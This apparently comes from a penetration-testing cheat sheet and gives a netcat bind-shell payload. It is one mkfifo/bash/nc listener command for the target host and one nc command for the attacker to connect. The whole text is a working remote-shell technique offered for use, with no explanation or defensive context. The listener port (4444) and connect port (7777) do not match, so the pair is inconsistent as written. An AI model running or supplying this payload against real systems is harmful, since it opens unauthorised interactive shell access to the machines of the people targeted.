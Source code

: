 
## Netcat payload Bind Shell


RHOST:

```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.10.15.152 4444 > /tmp/f
```

LHOST:
```shell-session
nc -nv 10.129.41.200 7777
```



